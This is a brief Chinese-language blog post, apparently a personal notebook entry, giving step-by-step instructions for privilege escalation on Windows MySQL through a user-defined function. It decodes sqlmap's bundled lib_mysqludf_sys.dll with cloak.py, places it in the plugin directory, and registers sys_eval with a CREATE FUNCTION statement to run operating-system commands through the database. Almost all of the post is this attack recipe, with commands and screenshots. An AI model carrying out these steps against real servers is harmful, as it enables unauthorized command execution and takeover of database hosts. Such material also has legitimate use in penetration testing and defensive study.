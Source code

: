 ```yaml
---
layout:     post
title:      windows mysql udf提权笔录
subtitle:   
date:       2019-02-26
author:     跳跳龙
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - mysql
    - udf
    
---
```


1.解码sqlmap/udf 目录下的dll文件。

![](http://tiaotiaolong.cn-bj.ufileos.com/blog12-01.jpg)

2.按照mysql的位数来确定。原文件是xor编码的，需要用sqlmap的解码工具。位置在sqlmap的extra目录下。

```
python cloak.py -d -i ../../udf/mysql/windows/64/lib_mysqludf_sys.dll_
```

3.解码完毕之后发现目录下多了一个dll文件 lib_mysqludf.dll。
4.将文件上传到mysql的安装目录下的plugin的目录下。

![](http://tiaotiaolong.cn-bj.ufileos.com/blog12-02.jpg)

5.引入我们的dll文件。

```
create function sys_eval returns string soname 'lib_mysqludf_sys.dll'
```
其中，sys_eval函数是dll文件中提供的。具体的还有很多，如下：

```

strings udf.dll

```
![](http://tiaotiaolong.cn-bj.ufileos.com/blog12-03.jpg)


![](http://tiaotiaolong.cn-bj.ufileos.com/blog12-04.jpg)
这样就是引入成功了，这个时候sys_eval这个函数就是用户自定义的并且可以使用了。

6.test
![](http://tiaotiaolong.cn-bj.ufileos.com/blog12-05.jpg)






